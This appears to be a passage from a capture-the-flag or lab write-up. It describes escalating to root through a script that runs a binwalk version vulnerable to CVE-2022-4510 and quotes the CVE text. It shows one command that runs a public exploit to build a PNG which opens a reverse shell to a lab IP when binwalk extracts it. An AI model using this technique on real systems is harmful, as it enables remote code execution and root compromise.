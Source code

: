 Using the `top` command you can see that this script is continuously running with root permissions.

Checking the version of binwalk present on the machine I discovered that it is a version vulnerable to Remote Code Execution and that there is a specific CVE for it.


### CVE-2022-4510

> A path traversal vulnerability was identified in ReFirm Labs binwalk from version 2.1.2b through 2.3.3 included. By crafting a malicious PFS filesystem file, an attacker can get binwalk's PFS extractor to extract files at arbitrary locations when binwalk is run in extraction mode (-e option). Remote code execution can be achieved by building a PFS filesystem that, upon extraction, would extract a malicious binwalk module into the folder .config/binwalk/plugins. This vulnerability is associated with program files src/binwalk/plugins/unpfs.py. This issue affects binwalk from 2.1.2b through 2.3.3 included. 

I searched the internet and found an exploit on github that allows me to embed commands within images, so that they are executed by binwalk as soon as the images are uploaded to the server

```
$ python walkingpath.py reverse input.png 10.10.14.54 4444
```

The pdf report present in this repo describes in detail all the vulnerabilities found on this machine.